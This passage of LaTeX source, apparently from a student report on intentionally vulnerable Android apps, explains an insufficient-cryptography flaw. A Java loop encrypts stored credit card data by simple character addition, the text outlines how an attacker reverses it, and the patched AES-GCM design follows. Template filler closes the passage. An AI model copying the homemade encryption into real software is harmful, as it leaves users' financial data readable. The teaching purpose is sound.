  		
\includegraphics[width=\linewidth]{imgs/secure_mobile_programming/app1_credit_card_form_empty.jpg}
  		\caption{Credit card form}
	\end{subfigure}
	\begin{subfigure}{.3\textwidth}
  		\centering
  		
\includegraphics[width=\linewidth]{imgs/secure_mobile_programming/app1_credit_card_info_wrong_password.jpg}
  		\caption{Wrong password}
	\end{subfigure}
	\begin{subfigure}{.3\textwidth}
  		\centering
  		
\includegraphics[width=\linewidth]{imgs/secure_mobile_programming/app1_credit_card_info_shown.jpg}
  		\caption{Correct password}
	\end{subfigure}
	\caption{Screens of the second app}
	\label{fig:app1}
\end{figure}


\subsubsection{Vulnerability}
\paragraph{Theoretical Background:}
Insufficient cryptography takes the fifth place in the OWASP mobile top ten. It occurs when data, especially sensitive information, is improperly or not at all encrypted and can be easily decrypted. 

Improperly encrypted means that insecure or deprecated algorithms are used, that keys are poorly managed or even custom encryption algorithms are used. Like with insecure data storage, this can lead to privacy violation or information theft.

\paragraph{Location of the Vulnerability:} \label{sec:app1-vulnerability}
The vulnerability of this app is located in the \texttt{OwnEncryption Manager} class. As the name implies, it uses a custom encryption method which is by no means secure. 

The algorithm iterates over each character in the plaintext and adds the corresponding password character and the counter variable to it (see listing \ref{lst:app0}). The encrypted message can then be decrypted by doing the exact opposite, i.e. subtracting each password character and the counter variable from the cipher text.

\begin{lstlisting}[language=Java, label={lst:app0}]
for (int i = 0; i < dataArray.length; i++) {
    cipherArray[i] = dataArray[i] + passwordArray[i % passwordArray.length] + i;
}
\end{lstlisting}


\paragraph{Possible Solutions:}
The solutions to this cryptography-problem are pretty simple:
\begin{itemize}
	\item Usage of well-established and strong cryptographic algorithms (like the ones defined in the Android developer cryptography guide).
	\item Not storing sensitive data on the device.
\end{itemize}


\subsubsection{Exploitation}
\paragraph{How to exploit this App:}
Like mentioned before, the data in the unpatched version is stored in the internal storage, which makes it harder to obtain. But if an attacker accomplishes to find and open the file that contains the encrypted data, he or she can easily identify the custom algorithm and decrypt the data to get access to the saved credit card information (see section \ref{sec:app1-vulnerability}).


\paragraph{How the patched version is more secure:}
The patched version uses \texttt{AESEncryptionManager} instead of the \texttt{OwnEncryptionManager} (like in the first app, both are implementing the same interface, \textbf{IEncryptionManager}).

This class follows the Android developer recommendations for encryption. It first generates in 1000 iterations of the \textit{Password-Based Key Derivation Function 2 (PBKDF2)} a key with a random salt and the entered password. Then, for encryption and decryption, it uses the \textit{Advanced Encryption Standard (AES)} in \textit{Galois/Counter Mode (GCM)} mode. Finally the resulting byte array gets stored as a Base64 encoded string in the output file within Android's internal storage. The random salt and the initialization vector are both saved as shared preferences in the internal storage as well.

\section{Network Scan}

%\section{Section 1}
%
%\subsection{Sub-Section 1}
%Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet.
%
%\subsection{Sub-Section 2}
%Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet.
%
%\section{Section 2}
%
%\subsection{Sub-Section 1}
%Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua.
%
%\subsection{Sub-Section 2}
%Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum.
%
%\subsection{Sub-Section 3}
%Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua.
%
%\section{Demos}
%
%\subsection{Source Code format}
%In these sections a few examples how to format source code in \LaTeX are given.
%
%(\hyperref[code:example1]{see listing~\ref*{code:example1} on page~\pageref*{code:example1}} and \hyperref[code:example2]{see listing~\ref*{code:example2} on page~\pageref*{code:example2}}).
%
%You can include short code snippets or commands directly inline with \lstinline{lstinline block}.
%
%\lstinputlisting[caption=Example C/C++ file,label=code:example1,style=c]{example.c}
%
%\begin{lstlisting}[caption=Example bash script,label=code:example2,style=simple]
%#!/bin/bash
%echo "Bash version ${BASH_VERSION}..."
%for i in {0..10..2}
%  do
%     echo "Welcome $i times"
% done
%
%echo "some very very very very very very very very very very very very very very very very very very very very long string"
%
%exit 0;
%\end{lstlisting}
%
%\subsection{Images}
%
%Here is an example how to insert an image into this document.
%(\hyperref[fig:logo1]{see figure~\ref*{fig:logo1} on page~\pageref*{fig:logo1}}).
%
%\begin{figure}[h!]
%  \centering
%  \fbox{
%    
\includegraphics[width=0.4\textwidth]{./imgs/logos/esse-logo-color.png}
%  }
%  \caption{ESSE Logo}
%  \label{fig:logo1}
%\end{figure}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


